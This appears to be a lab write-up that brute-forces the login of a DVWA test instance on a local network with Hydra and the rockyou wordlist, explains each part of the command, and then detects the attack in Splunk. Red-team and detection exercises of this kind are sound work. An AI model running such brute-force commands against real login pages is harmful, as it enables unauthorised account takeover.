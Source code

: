 ## BRUTE FORCE

Launching an Attack from Another PC in the LAN:

We will attack using the Hydra tool. First, we need to obtain the cookies from the website.

![image](https://github.com/user-attachments/assets/b58c9bc4-8ed9-410e-84d7-f626b2426b48)
 
using hyra tool:

payload:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
"http-get-form://172.17.128.158/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: security=medium; PHPSESSID=5ba0cf3c373c345a17dbcfb19b595c31:F=Username and/or password incorrect"
```
This Hydra command is used for brute-forcing the login of a website.

-Target: 172.17.128.158/DVWA/vulnerabilities/brute/

-Username: Always "admin"

-Passwords: Attempted from the rockyou.txt list

-Cookies: Includes session info to bypass security

-Failure pattern: Looks for "incorrect password" message to know when to try the next password

![image](https://github.com/user-attachments/assets/fa79da0e-1857-40c3-8b0c-30cda63cb211)

Attack successful. Now, try to detect it from Splunk Enterprise:

We can see that there are a large number of login attempts being made and see that tool hydra been used.

![image](https://github.com/user-attachments/assets/8f5584f3-607f-4f3b-9ba6-e4d19acebaba)

We can see that there are a large number of login attempts being made

![image](https://github.com/user-attachments/assets/dcc87be5-310d-42e4-8c12-723bf30e77c8)
  
Many passwords have been tried during the attack, and we can confirm that it’s a brute-force attack

This table shows that a brute-force attack has occurred.
 
command 
```
host="victim"  source="/var/log/apache2/access.log" sourcetype=access_combined brute password hydra
| table _time clientip username password
```
![image](https://github.com/user-attachments/assets/958ac55c-6f98-4559-b93e-0bc85d1e1897)

